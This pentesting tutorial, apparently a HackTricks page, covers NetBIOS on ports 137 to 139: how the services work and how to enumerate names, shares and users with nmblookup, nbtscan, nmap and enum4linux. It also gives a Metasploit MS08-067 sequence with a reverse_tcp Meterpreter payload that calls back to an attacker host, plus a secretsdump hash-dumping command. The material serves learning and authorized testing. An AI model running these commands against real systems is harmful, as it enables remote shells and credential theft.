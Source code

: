 # 137,138,139 - Pentesting NetBios

## NetBios Name Service

**NetBIOS Name Service** plays a crucial role, involving various services such as **name registration and resolution**, **datagram distribution**, and **session services**, utilizing specific ports for each service.
NetBIOS (Network Basic Input/Output System) is a protocol used for communication within a local network. It allows applications on different computers to communicate over a local area network (LAN), primarily used in early Windows-based networks for name resolution and sharing services like files and printers. Though its usage has decreased over time with the introduction of more secure and scalable solutions, some networks might still have devices using NetBIOS, potentially exposing them to cybersecurity risks.

* Name service for name registration and resolution (ports: 137/udp and 137/tcp).
* Datagram distribution service for connectionless communication (port: 138/udp).
* Session service for connection-oriented communication (port: 139/tcp).

### Name Service

For a device to participate in a NetBIOS network, it must have a unique name. This is achieved through a **broadcast process** where a "Name Query" packet is sent. If no objections are received, the name is considered available. Alternatively, a **Name Service server** can be queried directly to check for name availability or to resolve a name to an IP address. Tools like `nmblookup`, `nbtscan`, and `nmap` are utilized for enumerating NetBIOS services, revealing server names and MAC addresses.

```bash
PORT    STATE SERVICE    VERSION
137/udp open  netbios-ns Samba nmbd netbios-ns (workgroup: WORKGROUP)
```

Enumerating a NetBIOS service you can obtain the names the server is using and the MAC address of the server.

```bash
nmblookup -A <IP>
nbtscan <IP>/30
sudo nmap -sU -sV -T4 --script nbstat.nse -p137 -Pn -n <IP>
nmap -p 137,138,139 X.X.X.X
```
## Enumeration
### NetBIOS Name Service
NetBIOS operates primarily on ports 137/udp for name services, 138/udp for datagram distribution, and 139/tcp for session services. The name service component is crucial for translating human-friendly computer names within the network into their corresponding IP addresses.

To explore the network and find available NetBIOS names, use the following commands:
```
nmblookup -A <IP>

nbtscan <IP>/30

sudo nmap -sU -sV -T4 --script nbstat.nse -p137 -Pn -n <IP>
```
## Enumerating Shares and Sessions
enum4linux
`enum4linux` is a tool for enumerating information from Windows and Samba systems.
```
enum4linux -a X.X.X.X
```
This command attempts to retrieve as much information as possible including shares, sessions, and usernames.

## Attack Vectors
### Exploiting Known Vulnerabilities
Some well-known vulnerabilities might be present in NetBIOS services, depending on the system's configuration and patch level.

**MS08-067**
MS08-067 is a critical vulnerability in Microsoft Server Message Block (SMB) that could allow remote code execution.
```
msfconsole
use exploit/windows/smb/ms08_067_netapi
set RHOST <target-ip>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your-ip>
exploit
```
# Post-Exploitation
### Dumping Hashes
Dump the SAM database hashes using secretsdump.py from Impacket suite:
```
secretsdump.py -just-dc <domain>/<user>@<target-ip>
```
## HackTricks Automatic Commands

```
Protocol_Name: Netbios    #Protocol Abbreviation if there is one.
Port_Number:  137,138,139     #Comma separated if there is more than one.
Protocol_Description: Netbios         #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for NetBios
  Note: |
    Name service for name registration and resolution (ports: 137/udp and 137/tcp).
    Datagram distribution service for connectionless communication (port: 138/udp).
    Session service for connection-oriented communication (port: 139/tcp).

    For a device to participate in a NetBIOS network, it must have a unique name. This is achieved through a broadcast process where a "Name Query" packet is sent. If no objections are received, the name is considered available. Alternatively, a Name Service server can be queried directly to check for name availability or to resolve a name to an IP address.

    https://book.hacktricks.xyz/pentesting/137-138-139-pentesting-netbios

Entry_2:
  Name: Find Names
  Description: Three scans to find the names of the server
  Command: nmblookup -A {IP} &&&& nbtscan {IP}/30 &&&& nmap -sU -sV -T4 --script nbstat.nse -p 137 -Pn -n {IP}
```

